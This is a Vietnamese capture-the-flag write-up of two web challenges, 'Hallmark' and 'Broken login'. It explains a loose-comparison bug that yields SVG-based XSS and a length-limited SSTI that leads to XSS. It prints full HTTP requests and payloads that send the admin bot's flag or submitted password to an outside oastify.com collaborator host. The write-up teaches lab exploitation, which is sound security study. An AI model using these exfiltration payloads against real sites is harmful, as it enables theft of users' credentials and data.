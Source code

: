 # 1. Hallmark
![image](https://user-images.githubusercontent.com/103978452/235079807-32bf2932-9cb2-4b36-96f8-f8cc1a2af082.png)

Website cho phép user tạo thiệp mời với đoạn text bất kỳ hoặc một svg image. Tùy vào loại nội dung mà response sẽ có content-type phù hợp. Ngoài ra, có admin bot sẽ truy cập URL mà ta đưa vào.

Request tạo card:
```
POST /card HTTP/1.1
Host: hallmark.web.actf.co
Content-Length: 20
Content-Type: application/x-www-form-urlencoded

svg=text&content=abc
```
Khi đó website sẽ tạo một card với một uuid, và `GET /card?id=<card_uuid>` sẽ có response là nội dung của card. Nếu method tạo card có `svg=text` thì response trả về card có `Content-Type: text/plain`. Nếu `svg=heart` hoặc các giá trị nằm trong danh sách svg, card có `Content-Type: image/svg+xml`.

Đọc source code, ta thấy có đoạn sau:
```
app.put("/card", (req, res) => {
    let { id, type, svg, content } = req.body;

    if (!id || !cards[id]){
        res.send("bad id");
        return;
    }

    cards[id].type = type == "image/svg+xml" ? type : "text/plain";
    cards[id].content = type === "image/svg+xml" ? IMAGES[svg || "heart"] : content;

    res.send("ok");
});
```

Ta có thể chèn đoạn text bất kỳ nhưng Content-Type sẽ là plain/text => không thể tạo executable script. Còn nếu tạo card với Content-Type là image/svg+xml thì content bị giới hạn, chỉ được sử dụng các card hệ thống cho sẵn. Như vậy, ta cần tìm cách bypass để chèn text vào nhưng Content-Type vẫn là svg => XSS => Khiến admin bot khai ra flag.

Để exploit, ta sẽ lợi dụng lỗ hổng loose comparison trong controller `PUT /card`. Ta submit request:
```
PUT /card HTTP/1.1
Host: hallmark.web.actf.co
Content-Length: 82
Content-Type: application/x-www-form-urlencoded

id=d917d80d-4a5b-413b-9b9d-c6f7ce1a1c08&type[]=image/svg%2bxml&svg=abc&content=abc
```
Khi request trên được xử lý, server sẽ đọc `type[]` như một array, khiến operator `==` trả về true, còn `===` trả về false => phá vỡ logic code => exploited!

Khi đó, gửi request `GET /card?id=d917d80d-4a5b-413b-9b9d-c6f7ce1a1c08` ta được response:
```
HTTP/1.1 200 OK
Server: nginx/1.23.3
Date: Fri, 28 Apr 2023 07:31:02 GMT
Content-Type: image/svg+xml
Content-Length: 3
Connection: close
X-Powered-By: Express
ETag: W/"3-qZk+NkcGgWq6PiVxeFDCbJzQ2J0"

abc
```

Như vậy ta đã có thể tấn công XSS sử dụng các đoạn mã svg. Thay thế `abc` bằng đoạn svg có thể trigger một request đến `/flag`, đọc response sau đó gửi về BurpCollaborator, kết quả ta lấy được flag.

Gửi request thay đổi nội dung card:
```
PUT /card HTTP/1.1
Host: hallmark.web.actf.co
Content-Length: 901
Content-Type: application/x-www-form-urlencoded

id=d917d80d-4a5b-413b-9b9d-c6f7ce1a1c08&type[]=image/svg%2bxml&svg=abc&content=%3C%3Fxml+version%3D%221.0%22+standalone%3D%22no%22%3F%3E%0A%3C%21DOCTYPE+svg+PUBLIC+%22-%2F%2FW3C%2F%2FDTD+SVG+1.1%2F%2FEN%22+%22http%3A%2F%2Fwww.w3.org%2FGraphics%2FSVG%2F1.1%2FDTD%2Fsvg11.dtd%22%3E%0A%0A%3Csvg+version%3D%221.1%22+baseProfile%3D%22full%22+xmlns%3D%22http%3A%2F%2Fwww.w3.org%2F2000%2Fsvg%22%3E%0A+++%3Crect+width%3D%22300%22+height%3D%22100%22+style%3D%22fill%3Argb%280%2C0%2C255%29%3Bstroke-width%3A3%3Bstroke%3Argb%280%2C0%2C0%29%22+%2F%3E%0A+++%3Cscript+type%3D%22text%2Fjavascript%22%3E%0A++++++var+xhr+%3D+new+XMLHttpRequest%28%29%3B%0Axhr.open%28%22GET%22%2C+%22%2Fflag%22%29%3B%0Axhr.onreadystatechange+%3D+%28%29+%3D%3E+%7Bdocument.location%3D%22https%3A%2F%2Frzu81o07v0z9s6jkjbo5ccdyfplf94.oastify.com%3Fflag%3D%22%2Bxhr.responseText%3B%7D%0Axhr.send%28%29%3B%0A+++%3C%2Fscript%3E%0A%3C%2Fsvg%3E
```

Flag: `actf{the_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33}`

# 2. Broken login
Challenge cung cấp source code của file `app.py` và source code của admin bot.

File `app.py`:
```
from flask import Flask, make_response, request, escape, render_template_string

app = Flask(__name__)

fails = 0

indexPage = """...Login form..."""

@app.get("/")
def index():
    global fails
    custom_message = ""

    if "message" in request.args:
        if len(request.args["message"]) >= 25:
            return render_template_string(indexPage, fails=fails)
        
        custom_message = escape(request.args["message"])
    
    return render_template_string(indexPage % custom_message, fails=fails)


@app.post("/")
def login():
    global fails
    fails += 1
    return make_response("wrong username or password", 401)


if __name__ == "__main__":
    app.run("0.0.0.0")
```

Khảo sát website, ta thấy các chức năng:

+) Login form cho phép nhập username và password, sẽ hiển thị "Wrong username or password" cho dù thông tin đăng nhập có là gì chăng nữa.

+) Admin bot sẽ visit URL với domain hợp lệ, điền thông tin username và password vào các ô input rồi submit form. Trong đó, password chính là flag.

Như vậy, ta cần đọc request login do admin bot submit. Đọc file `app.py`, ta thấy tham số `message` được truyền vào template. Thử `/?message={{7*7}}` => có lỗ hổng SSTI, tuy nhiên giới hạn độ dài là 25 nên cần tìm cách bypass.

Để bypass length, ta dùng `/?message={{request.args.a|safe}}&a=abc`. Khi `message` được load vào template, nó sẽ đọc tham số `a` trong query string và thay thế bằng giá trị của `a` khiến chuỗi`abc` được hiển thị. Ta thấy website chỉ escape biến `message` => XSS với parameter `a` => có thể tạo payload khiến Admin Bot execute script, gửi request đến BurpCollaborator.

Payload cuối cùng như sau: `https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cform+action%3D%22https%3A%2F%2Fuywcqez17hkq9srcsampsedao1urig.oastify.com%2Ftest%22+method%3D%22POST%22%3E%3Cinput+type%3D%22text%22+name%3D%22username%22%3E%3Cinput+type%3D%22text%22+name%3D%22password%22%3E%3Cinput+type%3D%22submit%22+value%3D%22SUBMIT%22%3E%3C%2Fform%3E`
